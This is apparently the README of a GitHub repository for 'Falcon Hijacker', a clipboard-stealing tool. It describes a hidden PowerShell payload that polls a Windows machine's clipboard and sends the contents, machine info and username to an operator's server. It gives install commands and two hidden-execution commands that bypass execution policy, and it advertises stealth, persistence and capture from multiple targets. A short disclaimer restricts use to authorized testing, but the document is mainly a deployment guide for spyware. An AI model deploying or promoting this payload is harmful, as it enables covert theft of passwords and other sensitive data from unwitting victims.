 # Falcon Clip Board Hijacker 🦅

<p align="center">
    <img src="https://raw.githubusercontent.com/rgsecteam/rgsectm/refs/heads/main/image/thumbinels/falcon.png">
    <img src="https://img.shields.io/badge/License-MIT-blue.svg">
</p>

# What is Falcon-Hijacker?
<p>Falcon Hijacker is a professional clipboard monitoring tool designed for authorized security assessments. It captures real-time clipboard data from target systems through a streamlined bash interface.</p>

## This Tool Tested On :
  - Kali Linux
  - Parrot Sec OS


## 📊 Advanced Monitoring

  - **Live Data Stream:** Real-time clipboard viewing
  - **Structured Logging:** Timestamped entries with metadata
  - **Multiple Targets:** Capture from multiple machines simultaneously
  - **Export Ready:** Clean log format for analysis

## PowerShell Payload (clipboard_logger.ps1)
  - **Frequency:** Checks clipboard every 10 seconds
  - **Data Sent:** Clipboard content + machine info + username
  - **Stealth:** No visible window, error suppression
  - **Persistence:** Runs until manually stopped

## Installing and requirements
<p>This tool require PHP for webserver, and wget for downloading dependencies. First run following command on your terminal</p>

```
apt-get -y install php wget
```

## Installing Falcon:

```
git clone https://github.com/rgsecteam/falcon-hijacker
cd falcon-hijacker
bash falcon.sh
```
## Stealth Deployment:
<p>Run the following command on windows matchin. </p>

```
powershell -NoP -NonI -W h -Exec Bypass .\clipboardhijacker.ps1
```
<p>For Hidden Execution</p>

```
Start-Process powershell -ArgumentList "-WindowStyle Hidden -ExecutionPolicy Bypass -File .\clipboardhijacker.ps1"
```

## Legal & Ethical Notice
By using the materials in this repository you agree to:
- Use the information only for defensive, educational, or research purposes in controlled environments.
- Follow all applicable laws and organizational policies.
- Not distribute or operationalize any malicious code.
- **Do not** use this repository to harm others. Always obtain explicit permission before testing on systems you do not own.

#### For More Video subcribe <a href="http://youtube.com/@RGSecurityTeam">RGSecurityTeam YouTube Channel</a>

<p>Falcon-hijacker is inspired by https://github.com/techchipnet/ Big thanks to @techchipnet</p>
